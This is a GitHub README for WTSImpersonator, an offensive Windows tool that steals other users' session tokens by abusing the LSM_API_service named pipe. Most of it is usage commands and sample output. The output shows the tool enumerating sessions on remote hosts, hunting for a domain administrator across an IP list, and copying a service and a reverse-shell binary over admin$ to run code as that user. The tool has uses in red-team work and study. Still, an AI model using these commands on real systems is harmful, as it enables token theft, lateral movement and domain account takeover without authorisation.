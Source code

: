 # WTSImpersonator
![wtsLOGOwhite](https://github.com/OmriBaso/WTSImpersonator/assets/50461376/89391383-769e-4460-9adb-a146e290721a)

WTSImpersonator utilizes WTSQueryUserToken to steal other users tokens \(Local/Remote\) without using NtOpenProcess or touching Lsass.exe by abusing RPC Named Pipe "\\pipe\LSM_API_service" \(Admin Privileges Required\)  
  
### Usage: 
 
##### `enum` Module  
  
Enumerate Local Users on the machine the tool is running from  
```powershell
.\WTSImpersonator.exe -m enum
```
Enumerate a machine remotely given an IP or an Hostname.
```powershell  
.\WTSImpersonator.exe -m enum -s 192.168.40.131  
```
##### `exec` / `exec-remote` Module  
Both "exec" and "exec-remote" requires being in a **"Service"** context.  
The local "exec" module does not need anything buy the WTSImpersonator.exe and the binary you want to execute \(-c flag\), this could be  
a normal "C:\Windows\System32\cmd.exe" and you will open a CMD as the user you desire, an example would be  
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe  
```
you could use PsExec64.exe in order to obtain a service context  
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```powershell
For `exec-remote` things are a bit different, I created a service that can be installed remotely just like `PsExec.exe`  
the service will receive a `SessionId` and a `binary to run` as an argument and it will be installed and executed remotely given the right permissions  
an example run would look as follows:
  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m enum -s 192.168.40.129

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso
WTSEnumerateSessions count: 1
[2] SessionId: 2 State: WTSDisconnected (4) WinstationName: ''
        WTSUserName:  Administrator
        WTSDomainName: LABS
        WTSConnectState: 4 (WTSDisconnected)
```  
as can be seen above the `Sessionid` of the Administrator account is `2` so we use it next in the `id` variable when executing code remotely
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```  
##### `user-hunter` Module  

The user hunter module will give you the ability to enumerate multiple machines and if a given user is found, it will execute code on this user behalf.  
this is useful when hunting for "Domain Admins" while having local administrator rights on a few machines.  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m user-hunter -uh LABS/Administrator -ipl .\test.txt -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso

[+] Hunting for: LABS/Administrator On list: .\test.txt
[-] Trying: 192.168.40.131
[+] Opned WTS Handle: 192.168.40.131
[-] Trying: 192.168.40.129
[+] Opned WTS Handle: 192.168.40.129

----------------------------------------
[+] Found User: LABS/Administrator On Server: 192.168.40.129
[+] Getting Code Execution as: LABS/Administrator
[+] Trying to execute remotly
[+] Transfering file remotely from: .\WTSService.exe To: \\192.168.40.129\admin$\voli.exe
[+] Transfering file remotely from: .\SimpleReverseShellExample.exe To: \\192.168.40.129\admin$\DrkSIM.exe
[+] Successfully transfered file!
[+] Successfully transfered file!
[+] Sucessfully Transferred Both Files
[+] Will Create Service voli
[+] Create Service Success : "C:\Windows\voli.exe" 2 C:\Windows\DrkSIM.exe
[+] OpenService Success!
[+] Started Sevice Sucessfully!

[+] Deleted Service
```
